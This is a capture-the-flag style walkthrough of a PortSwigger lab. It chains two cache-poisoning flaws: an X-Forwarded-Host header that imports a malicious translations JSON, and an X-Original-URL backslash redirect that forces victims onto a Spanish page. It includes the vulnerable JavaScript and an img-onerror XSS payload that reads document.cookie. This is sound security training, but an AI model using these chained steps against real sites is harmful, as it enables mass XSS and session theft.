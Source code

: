 # Combining web cache poisoning vulnerabilities

## Description

[This lab](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-combining-vulnerabilities) is susceptible to web cache poisoning, but only if you construct a complex exploit chain. A user visits the home page roughly once a minute and their language is set to English. 

## Reproduction and proof of concept

1. With Burp running, load the website's home page.
2. Use [Param Miner](https://portswigger.net/web-security/web-cache-poisoning#param-miner) to identify that the `X-Forwarded-Host` and `X-Original-URL` headers are supported.

![Web cache poisoning](../../_static/images/cache17.png)

![Web cache poisoning](../../_static/images/cache18.png)

3. In Burp Repeater, experiment with the `X-Forwarded-Host` header. It can be used to import an arbitrary JSON file instead of the `translations.json` file, which contains translations of UI texts.

![Web cache poisoning](../../_static/images/cache19.png)

4. The website is vulnerable to DOM-XSS due to the way the `initTranslations()` function handles data from the JSON file for all languages except English:

![Web cache poisoning](../../_static/images/cache20.png)

```text
function initTranslations(jsonUrl)
{
    const lang = document.cookie.split(';')
        .map(c => c.trim().split('='))
        .filter(p => p[0] === 'lang')
        .map(p => p[1])
        .find(() => true);

    const translate = (dict, el) => {
        for (const k in dict) {
            if (el.innerHTML === k) {
                el.innerHTML = dict[k];
            } else {
                el.childNodes.forEach(el_ => translate(dict, el_));
            }
        }
    }

    fetch(jsonUrl)
        .then(r => r.json())
        .then(j => {
            const select = document.getElementById('lang-select');
            if (select) {
                for (const code in j) {
                    const name = j[code].name;
                    const el = document.createElement("option");
                    el.setAttribute("value", code);
                    el.innerText = name;
                    select.appendChild(el);
                    if (code === lang) {
                        select.selectedIndex = select.childElementCount - 1;
                    }
                }
            }

            lang in j && lang.toLowerCase() !== 'en' && j[lang].translations && translate(j[lang].translations, document.getElementsByClassName('maincontainer')[0]);
        });
}
```

5. Go to the exploit server and edit the file name to match the path used by the vulnerable website: `/resources/json/translations.json`. 
6. In the head, add the header `Access-Control-Allow-Origin: *` to enable CORS.
7. In the body, add malicious JSON that matches the structure used by the real translation file. Replace the value of one of the translations with a suitable XSS payload, for example:

```text
{
    "en": {
        "name": "English"
    },
    "es": {
        "name": "español",
        "translations": {
            "Return to list": "Volver a la lista",
            "View details": "</a><img src=1 onerror='alert(document.cookie)' />",
            "Description:": "Descripción"
        }
    }
}
```

![Web cache poisoning](../../_static/images/cache22.png)

8. **Store** the exploit.
9. In Burp, find a `GET` request for `/?localized=1` that includes the `lang` cookie for Spanish:
    `lang=es`

![Web cache poisoning](../../_static/images/cache23.png)

![Web cache poisoning](../../_static/images/cache24.png)

10. Send the request to Burp Repeater. Add a cache buster like `?cb=1234` and the `X-Forwarded-Host` header with the exploit server ID: `X-Forwarded-Host: exploit-server-id.exploit-server.net`. 
11. Send and confirm that the exploit server is reflected in the response.

![Web cache poisoning](../../_static/images/cache25.png)

12. To simulate the victim, load the URL in the browser and confirm that the `alert()` fires.
13. The cache for the Spanish page is poisoned, but the target user's language is set to English. It is not possible to exploit users with their language set to English, so a way to forcibly change language is needed.
14. In Burp, go to **Proxy -> HTTP history** and study the requests and responses generated. When changing the language on the page to anything other than English, this triggers a redirect, for example, to `/setlang/es`. The user's selected language is set server side using the `lang=es` cookie, and the home page is reloaded with the parameter `?localized=1`.
15. Send the GET request for the home page to Burp Repeater and add a cache buster.
16. The `X-Original-URL` can be used to change the path of the request to explicitly set `/setlang/es`. This response cannot be cached because it contains the `Set-Cookie` header.
17. The home page sometimes uses backslashes as a folder separator. The server normalises these to forward slashes using a redirect. As a result, `X-Original-URL: /setlang\es` triggers a `302` response that redirects to `/setlang/es`. This `302` response is cacheable and can be used to force other users to the Spanish version of the home page.
18. Combine these two exploits. First, poison the `GET /?localized=1` page using the `X-Forwarded-Host` header to import the malicious JSON file from the exploit server.
19. And while the cache is still poisoned, poison the `GET /` page using `X-Original-URL: /setlang\es` to force all users to the Spanish page.
20. To simulate the victim, load the English page in the browser and make sure that you are redirected and that the `alert()` fires.
21. Replay both requests in sequence to keep the cache poisoned on both pages until the victim visits the site and the lab is solved.

## PoC

| [![Screencast PoC Combining web cache poisoning vulnerabilities](http://img.youtube.com/vi/EwVDGUDlMXE/0.jpg)](http://www.youtube.com/watch?v=EwVDGUDlMXE "Combining web cache poisoning vulnerabilities") |
|:--:|
| [Screencast PoC on Youtube](http://www.youtube.com/watch?v=EwVDGUDlMXE) |

## Exploitability

An attacker will need to poison the cache with multiple malicious responses simultaneously and coordinate this with the victim's browsing behaviour.  
